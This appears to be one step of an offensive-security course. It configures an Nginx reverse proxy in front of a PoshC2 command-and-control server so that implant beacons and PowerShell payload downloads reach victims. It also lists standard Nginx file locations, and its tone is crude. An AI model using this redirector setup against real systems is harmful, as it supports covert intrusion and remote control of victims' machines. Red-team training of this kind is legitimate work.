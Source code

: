 # Setting up Nginx with TCP proxy 

1. First off this shit is stupid, nginx only knows how to deal with HTTP traffic and beacon traffic can sometimes be encrypted by default making it hard for Nginx to deal with. There for we are going to have to not only set up our `proxy_reverse` but also configure TCP on the server if we want COMs to work all the way with out the use of ssl certs
2. To start lets install Nginx
    ```bash
    sudo apt install nginx 
    ```
3. Now lets create a config file for pass through connections 
    ```bash 
    sudo vim /etc/nginx/conf.d/lp_proxy.conf
    ```
4. Paste the follwing in `lp_proxy.conf`
    ```nginx
server {
    listen 80;
    #NOTE: This line is so payloads can be downloaded over port 80 using Powershell
    server_name <IP of Proxy Server>;

    location / {
        proxy_pass https://<posh-server IP>:<Posh bind port>;
    }
}
    ```

5. Now lets reload Nginx with the new config files
    ```bash 
    sudo systemctl restart nginx.service
    ```
6. From here, create a poshc2 project with the bind port set to 80, and in `payloadcomshost` set your `http://proxy-ip:80`

7. Host your payload however and download on victim 

8. tada you have a beacon shelley, fuck you.

## Important Nginx File Locations 
- `/var/www/html` – Website content as seen by visitors.
- `/etc/nginx` – Location of the main Nginx application files.
- `/etc/nginx/nginx.conf` – The main Nginx configuration file.
- `/etc/nginx/sites-available` – List of all websites configured through Nginx.
- `/etc/nginx/sites-enabled` – List of websites actively being served by Nginx.
- `/var/log/nginx/access.log` – Access logs tracking every request to your server.
- `/var/log/ngins/error.log` – A log of any errors generated in Nginx.

## [Return to course page](README.md) or [Go To Next Step](step3-persistence.md)